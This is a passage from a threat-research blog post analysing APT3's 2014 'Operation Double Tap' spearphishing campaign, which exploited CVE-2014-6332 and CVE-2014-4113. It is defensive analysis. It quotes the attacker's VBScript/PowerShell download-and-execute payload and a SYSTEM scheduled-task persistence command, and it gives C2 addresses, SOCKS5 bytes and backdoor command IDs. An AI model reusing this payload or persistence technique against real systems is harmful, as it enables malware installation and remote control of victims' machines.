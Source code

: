 Contact sales Support   BlogSupportContact usreport_problemIncident Response Assistance   Breadcrumb Home Operation Double Tap   Threat Research Operation Double TapNed Moran, Mike Scott, Mike Oppenheim, Joshua Homan Nov 21, 20145 min read |    Last updated: Nov 29, 2023 APT3 (also known as UPS), the actors responsible for Operation Clandestine Fox has quietly continued to send waves of spearphishing messages over the past few months. This actor initiated their most recent campaign on November 19, 2014 targeting multiple organizations. The attacker leveraged multiple exploits, targeting both CVE-2014-6332 and CVE-2014-4113. CVE-2014-6332 was disclosed publicly on 2014-11-11 and is a Windows OLE Automation Array Remote Code Execution vulnerability. CVE-2014-4113 is a privilege escalation vulnerability that was disclosed publicly on 2014-10-14.The use of CVE-2014-6332 is notable, as it demonstrates that multiple classes of actors, both criminal and APT alike, have now incorporated this exploit into their toolkits. Further, the use of both of these two known vulnerabilities in tandem is notable for APT3. This actor is historically known for leveraging zero-day vulnerabilities in widespread but infrequent phishing campaigns. The use of known exploits and more frequent attacks may indicate both a shift in strategy and operational tempo for this group.The SpearphishThe body of the message is below:One Month's Free Membership for The PLAYBOY ClUB 1080P HD VIDEOS 100,000 PHOTOS 4,000  MODELS Nude Celebrities,Playmates,Cybergirls & More! Click hxxp://join.playboysplus.com/signup/ To Get a Free Plus Member Now & Never Miss Another Update. Your Member referrals must remain active. If anyone getting "Promotion not available" for 1 month free membership, you might get the issue up to 48 hrs once your membership is expired and make sure to Clear out cookies or use another browser or use another PC.The webpage contained both CVE-2014-6332 exploit code and a VBScript that invoked PowerShell on the affected users’ system to download the below payload:    function runmumaa()    On Error Resume Next    set shell=createobject("Shell.Application")    shell.ShellExecute "powershell.exe","-NoLogo -NoProfile                 -NonInteractive -WindowStyle Hidden ( New-Object                         “System.Net.WebClient”).DownloadFile(“http://www.playboysplus.com        /install/install.exe”,”install.exe”);Invoke-Item install.exe", "",         "open", 1    end functionThe CVE-2014-6332 exploit code seen in this incident is derived from the code published at http://www.exploit-db.com/exploits/35230/, which has also been incorporated in the Metasploit project.The DownloaderAfter the exploit or script executes, the system downloads install.exe, which has the following metadata:MD5             5a0c4e1925c76a959ab0588f683ab437Size            46592 bytesCompile Time    2014-11-19 08:55:10ZImport Hash     6b8611f8148a6b51e37fd68e75b6a81cThe file install.exe attempts to write two files (doc.exe and test.exe) to the hard-coded path “C:\Users\Public”, which fails on Windows XP because that path is not present by default.The first dropped file, doc.exe, contains the CVE-2014-4113 exploit and then attempts to execute test.exe with the elevated privileges. These files have the following metadata:doc.exe (x86):MD5           492a839a3bf9c61b7065589a18c5aa8dSize          12288 bytesImport Hash   9342d18e7d315117f23db7553d59a9d1 doc.exe (x64):MD5           744a17a3bc6dbd535f568ef1e87d8b9aSize          13824 bytesCompile Time  2014-11-19 08:25:45ZImport Hash   2fab77a3ff40e4f6d9b5b7e813c618e4 test.exe:MD5           5c08957f05377004376e6a622406f9aaSize          11264 bytesCompile Time  2014-11-18 10:49:23ZImport Hash   f34d5f2d4577ed6d9ceec516c1f5a744 These payload files also have interesting PDB debug strings.install.exe:    c:\Users\aa\Documents\Visual Studio 2008\Projects\MShell\Release        \MShell.pdb doc.exe:    c:\Users\aa\Documents\Visual Studio 2008\Projects\4113\Release            \4113.pdb test.exe:    C:\Users\aa\Documents\Visual Studio 2010\Projects\MyRat\Client\Client      \obj\x86\Release\Client.pdb The most interesting PDB string is the “4113.pdb,” which appears to reference CVE-2014-4113. This CVE is a local kernel vulnerability that, with successful exploitation, would give any user SYSTEM access on the machine.The malware component, test.exe, uses the Windows command "cmd.exe" /C whoami” to verify it is running with the elevated privileges of “System” and creates persistence by creating the following scheduled task:    schtasks /create /tn "mysc" /tr C:\Users\Public\test.exe /sc ONLOGON     /ru "System"When executed, the malware first establishes a SOCKS5 connection to 192.157.198.103 using TCP port 1913. The malware sends the SOCKS5 connection request "05 01 00" and verifies the server response starts with "05 00". The malware then requests a connection to 192.184.60.229 on TCP port 81 using the command "05 01 00 01 c0 b8 3c e5 00 51" and verifies that the first two bytes from the server are "05 00" (c0 b8 3c e5 is the IP address and 00 51 is the port in network byte order).Once the connection to the server is established, the malware expects a message containing at least three bytes from the server. These first three bytes are the command identifier. The following commands are supported by the malware:Command IDDescription00 00 00Content after command ID is written to:C:\Users\[Username]\AppData\Local\Temp\notepad1.exe00 00 01Deletes the files:C:\Users\[Username]\AppData\Local\Temp\notepad.exeC:\Users\[Username]\AppData\Local\Temp\newnotepad.exe00 00 02Malware exits00 00 03Malware downloads the URL that follows the command ID. The file is saved to:C:\Users\[Username]\AppData\Local\Temp\notepad.exe00 00 04Content after command ID is written to:C:\Users\[Username]\AppData\Local\Temp\notepad2.exe00 00 05The files notepad1.exe and notepad2.exe are